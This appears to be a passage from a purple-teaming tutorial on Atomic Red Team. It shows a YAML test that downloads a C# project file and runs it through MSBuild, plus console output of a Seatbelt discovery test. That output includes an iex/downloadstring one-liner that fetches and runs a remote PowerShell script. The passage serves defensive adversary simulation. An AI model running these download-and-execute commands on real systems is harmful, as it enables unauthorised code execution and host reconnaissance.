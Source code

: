 ```yaml
    get_prereq_command: |
      New-Item -Type Directory (split-path "#{filename}") -ErrorAction ignore | Out-Null
      Invoke-WebRequest "https://aguidetopurpleteaming.com/resources/8/psh.csproj" -OutFile "#{filename}"
  executor:
    command: |
      #{msbuildpath}\#{msbuildname} "#{filename}"
    name: command_prompt
```

With the YAML file updated, the following commands list and fetch the pre-requisites for executing the atomic.

```
PS C:\Tools> Invoke-AtomicTest -CheckPrereqs  T1127.001-3
Prerequisites not met: T1127.001-3 MSBuild PowerShell Execution Using Inline Tasks (C#)
    [*] Project file must exist on disk at specified location (C:\AtomicRedTeam\atomics\T1127.001\src\psh.csproj)

Try installing prereq's with the -GetPrereqs switch

PS C:\Tools> Invoke-AtomicTest -GetPrereqs T1127.001-3
Prereq successfully met: Project file must exist on disk at specified location (C:\AtomicRedTeam\atomics\T1127.001\src\psh.csproj)
```

#### Simulating Malicious Script Execution

Executing an atomic test for T1082 that leverages PowerSharpPack to launch the SeatBelt tool for situational awareness.

```
PS C:\AtomicRedTeam> Invoke-AtomicTest T1082 -TestNames 'WinPwn - PowerSharpPack - Seatbelt' -ShowDetails
PathToAtomicsFolder = C:\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: System Information Discovery T1082
Atomic Test Name: WinPwn - PowerSharpPack - Seatbelt
Atomic Test Number: 23
Atomic Test GUID: 5c16ceb4-ba3a-43d7-b848-a13c1f216d95
Description: PowerSharpPack - Seatbelt technique via function of WinPwn.
[Seatbelt](https://github.com/GhostPack/Seatbelt) is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/aguidetopurpleteaming/PowerSharpPack/master/PowerSharpBinaries/Invoke-Seatbelt.ps1')
Invoke-Seatbelt -Command "-group=all"
[!!!!!!!!END TEST!!!!!!!]
```
